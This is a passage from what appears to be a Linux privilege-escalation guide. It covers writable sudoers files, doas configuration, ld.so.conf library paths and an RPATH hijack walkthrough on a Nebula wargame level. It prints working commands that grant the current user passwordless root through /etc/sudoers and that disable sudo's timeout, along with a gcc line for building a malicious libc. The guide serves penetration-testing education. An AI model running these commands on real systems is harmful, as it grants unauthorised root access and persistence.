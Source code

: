 ls -l /etc/sudoers /etc/sudoers.d/
ls -ld /etc/sudoers.d/
If you can write you can abuse this permissions

echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
Other way to abuse these permissions:

# makes it so every terminal can sudo  
echo "Defaults !tty_tickets" > /etc/sudoers.d/win
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /etc/sudoers.d/win
DOAS
There are some alternatives to the sudo binary such as doas for OpenBSD, remember to check its configuration at /etc/doas.conf

permit nopass demo as root cmd vim
Shared Library
ld.so
The file /etc/ld.so.conf indicates where are loaded the configurations files from. Typically, this file contains the following path: include /etc/ld.so.conf.d/*.conf

That means that the configuration files from /etc/ld.so.conf.d/*.conf will be read. This configuration files points to another folders where libraries are going to be searched for. For example, the content of /etc/ld.so.conf.d/libc.conf is /usr/local/lib. This means that the system will search for libraries inside /usr/local/lib.

If for some reason a user has write permissions on any of the paths indicated: /etc/ld.so.conf, /etc/ld.so.conf.d/, any file inside /etc/ld.so.conf.d/ or any folder indicated inside any config file inside /etc/ld.so.conf.d/*.conf he may be able to escalate privileges.
Take a look about how to exploit this misconfiguration in the following page:

ld.so exploit example
/linux-unix/privilege-escalation/ld.so.conf-example
RPATH
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
​
level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
By copying the lib into /var/tmp/flag15/ it will be used by the program in this place as specified in the RPATH variable.

level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/
​
level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
Then create an evil library in /var/tmp with gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6
